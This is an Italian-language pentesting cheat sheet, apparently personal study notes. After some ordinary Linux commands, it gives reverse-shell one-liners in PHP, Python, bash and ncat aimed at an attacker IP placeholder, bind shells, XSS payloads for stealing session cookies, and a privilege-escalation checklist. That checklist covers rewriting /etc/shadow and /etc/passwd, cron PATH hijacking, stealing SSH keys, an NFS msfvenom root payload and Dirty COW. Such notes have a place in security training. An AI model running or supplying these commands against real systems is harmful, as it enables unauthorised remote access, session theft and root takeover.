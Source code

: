# LISTA COMANDI UTILI

###### FIND
   è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

###### SSH
   è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

###### SCP
   è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

###### HOST
   è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

###### WHOIS
   è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

###### NC
    utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
- ```nc -l 1234```: inizia ad ascoltare nella porta 1234
- ```nc 127.0.0.1 1234```: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


# SHELLS
## REVERSE SHELL
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega

### ATTACCANTE

```
ncat -lvnp 4242
```

### VITTIMA

#### php
```
php -r '$sock=fsockopen("IP_ATTACCANTE",4242);shell_exec("sh <&3 >&3 2>&3");'
```

#### python3
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ATTACCANTE",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

#### bash

```
bash -i >& /dev/tcp/IP_ATTACCANTE/4242 0>&1
```

```
0<&196;exec 196<>/dev/tcp/IP_ATTACCANTE/4242; sh <&196 >&196 2>&196
```

```
/bin/bash -l > /dev/tcp/IP_ATTACCANTE/4242 0<&1 2>&1
```

#### netcat
```
ncat IP_ATTACCANTE 4242 -e /bin/bash
```

## BIND SHELL
Nella bind shell è la vittima che si mette in listening e l'attaccante si collega

### VITTIMA

```
nc -lvp 4242 -e /bin/bash
```

### ATTACCANTE
```
nc IP_VITTIMA 4242
```

# XSS
```<script>alert(document.cookie)</script>``` è quello che mediamente mi può interessare per idSession

1. prova a metterlo nella URL se puoi dopo il ?
2. prova a metterlo in un button come `onclick=alert(document.cookie)`
3. prova a metterlo nella URL dopo una GET/POST con `&<script>alert(document.cookie)</script>`


# PRIVILAGE ESCALATION

La guida che segue è un po' disordinata, è più una lista di metodi da provare che altro. 

0. **CALDAMENTE CONSIGLIATO** Runna [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) dopo averlo scaricato sulla macchina vittima
1. Controlla se il file /etc/shadow è readable, cracka la hash del root
2. Controlla se il file /etc/shadow è writable, genera una nuova password sha-512 `mkpasswd -m sha-512 newpasswordhere` e sostituiscila a root
3. Controlla se il file /etc/passwd è writable, genera una password con `openssl passwd newpasswordhere` copia la riga iniziale di root alla fine di passwd, sostituisici il primo `root:x` con `newroot:password`, cambia utente in newroot
4. Usa `sudo -l` e vedi che comandi puoi usare come root, usa [GTFOBins](https://gtfobins.github.io/) per vedere quali permettono di fare privilage escalation
5. Guarda `cat /etc/crontab`, vedi se ci sono programmi che vengono eseguiti come root e prova a modificarli per avere shell o qualcosa di simile
6. Guarda `cat /etc/crontab`, vedi il PATH e i programmi che vengono eseguiti come root, crea un programma con lo stesso nome di quello root nella prima cartella in ordine che appare in PATH che ti possa permettere di avere una shell o qualcosa di simile
7. Guarda `cat /etc/crontab`, vedi se tra  i programmi root si sono WILDCARDS \*, poi usa gli exploit adatti
8. Guarda `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`, cerca se ci sono file soggetti ad exploit da [Exploit DB](https://www.exploit-db.com/)
9. f
10. Guarda se magari nella cronologia `cat ~/.*history | less` ha per sbaglio messo la password
11. Cerca se c'è la chiave SSH da qualche parte, copiala in un file root_key, `chmod 600 root_key`, e poi prova a connetterti con questa chiave `ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@IP_VITTIMA`
12. Guarda `cat /etc/exports`, se ci sono opzioni `no_root_squash` allora puoi usare il `mount` come root per avere privilegi root nella macchina vittima. 
		 ATTACCANTE (es. su /tmp vulnerabile a no_root_squashing):
		`mkdir /tmp/nfs` 
		`mount -o rw,vers=3 IP_VITTIMA(credo):/tmp /tmp/nfs`
		`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
		`chmod +xs /tmp/nfs/shell.elf`
		VITTIMA:
		`/tmp/shell.elf`
13. Come ultima istanza, prova un Dirty COW, anche se meglio di no
